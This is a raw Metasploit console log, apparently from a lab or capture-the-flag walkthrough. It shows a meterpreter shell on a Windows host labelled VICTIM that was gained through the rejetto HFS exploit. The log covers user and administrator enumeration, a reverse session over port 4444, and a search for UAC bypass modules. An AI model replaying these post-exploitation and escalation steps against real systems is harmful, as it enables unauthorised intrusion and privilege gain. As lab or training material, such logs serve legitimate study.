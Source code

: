 ```
meterpreter > shell
Process 460 created.
Channel 2 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\admin\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>net users
net users

User accounts for \\VICTIM

-------------------------------------------------------------------------------
admin                    Administrator            Guest                    
The command completed successfully.
C:\Users\admin\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>net localgroup administrators
net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
admin
Administrator
The command completed successfully.
```

```
C:\Users\admin\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>^C
Terminate channel 2? [y/N]  y
meterpreter > background
[*] Backgrounding session 1...
```

```
msf6 exploit(windows/http/rejetto_hfs_exec) > sessions

Active sessions
===============

  Id  Name  Type                     Information            Connection
  --  ----  ----                     -----------            ----------
  1         meterpreter x64/windows  VICTIM\admin @ VICTIM  10.10.16.4:4444 -> 10.0.22.98:49244 (10.0.22.98)
```

```
msf6 exploit(windows/http/rejetto_hfs_exec) > search bypassuac

Matching Modules
================

   #   Name                                                   Disclosure Date  Rank       Check  Description
   -   ----                                                   ---------------  ----       -----  -----------
   0   exploit/windows/local/bypassuac                        2010-12-31       excellent  No     Windows Escalate UAC Protection Bypass
   1   exploit/windows/local/bypassuac_comhijack              1900-01-01       excellent  Yes    Windows Escalate UAC Protection Bypass (Via COM Handler Hijack)
   2   exploit/windows/local/bypassuac_dotnet_profiler        2017-03-17       excellent  Yes    Windows Escalate UAC Protection Bypass (Via dot net profiler)
   3   exploit/windows/local/bypassuac_eventvwr               2016-08-15       excellent  Yes    Windows Escalate UAC Protection Bypass (Via Eventvwr Registry Key)
```